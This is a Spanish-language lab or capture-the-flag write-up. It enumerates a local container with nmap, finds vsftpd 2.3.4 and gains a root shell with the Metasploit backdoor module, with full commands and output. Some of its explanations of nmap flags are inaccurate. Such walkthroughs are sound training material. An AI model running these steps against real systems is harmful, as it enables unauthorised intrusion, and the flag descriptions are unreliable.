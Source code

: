 # Firsthacking
**Herramientas y recursos usados**
- nmap
- searchsploit
- msfconsole

# Enumeración

Empezamos con un escaneo de los puertos.

`sudo nmap -p- --open -sC -sS -sV --min-rate=5000 -n -Pn -vvv 172.17.0.2 -oN FirstHacking`

- `-p-` : Todos los puertos
- `--open` : Todos los puertos abiertos
- `-sC` : Escaneo de todos los scripts
- `-sS` : Escaneo de todos los servicios
- `-sV` : Escaneo de todas las versiones de los servicios
- `--min-rate 5000` : Establece mínimo envío de paquetes mínimos 5000/s
- `-n` : No aplica resolución DNS
- `-Pn` : Omisión de detección de hosts
- `-vvv` : Verbose - Muestra toda la información

# Resultado escaneo
```
PORT STATE SERVICE REASON VERSION
21/tcp open ftp syn-ack ttl 64 vsftpd 2.3.4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix
```
El único puerto abierto es el 21, que corresponde al servicio FTP.

# Explotación
Tenemos un servicio vsftpd con versión 2.3.4, podemos buscar alguna vulnerabilidad existente para este servicio con searchsploit.  

`searchsploit vsftpd 2.3.4`  
```
Exploit Title                                           Path
-----------------------------------------------------------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)   unix/remote/17491.rb
-----------------------------------------------------------------------------------
```
Encontramos 2 exploits, uno con extensión .rb que podemos utilizar a través de Metasploit.  
Iniciamos Metasploit y buscamos de nuevo la vulnerabilidad encontrada anteriormente con el comando `search`.
```
msf6 > search vsftp 2.3.4

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
```
Ahora utilizaremos el comando `use` para seleccionar este exploit.
```
msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) >
```
Con el comando `show options` podemos ver las informaciones necesarias para ejecutar el exploit.
```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic

```
En este caso solo hará falta insertar esta información:
- RPORT -> Puerto 21 (FTP) de la máquina víctima (que ya está cumplimentado)
- RHOSTS -> Dirección IP de la máquina víctima (172.17.0.2)

Para ello usaremos el comando `set`  
```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
msf6 exploit(unix/ftp/vsftpd_234_backdoor) >
```
Vemos si se han aplicado los cambios insertados:
```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   172.17.0.2       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(unix/ftp/vsftpd_234_backdoor) >
```
Por último, ejecutaremos el exploit con el comando `run`.
```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
```
```
[*] 172.17.0.2:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 172.17.0.2:21 - USER: 331 Please specify the password.
[+] 172.17.0.2:21 - Backdoor service has been spawned, handling...
[+] 172.17.0.2:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 2 opened (172.17.0.1:38103 -> 172.17.0.2:6200) at 2024-06-16 15:59:31 -0400

id
uid=0(root) gid=0(root) groups=0(root)
```
Listo! Ya somos root!
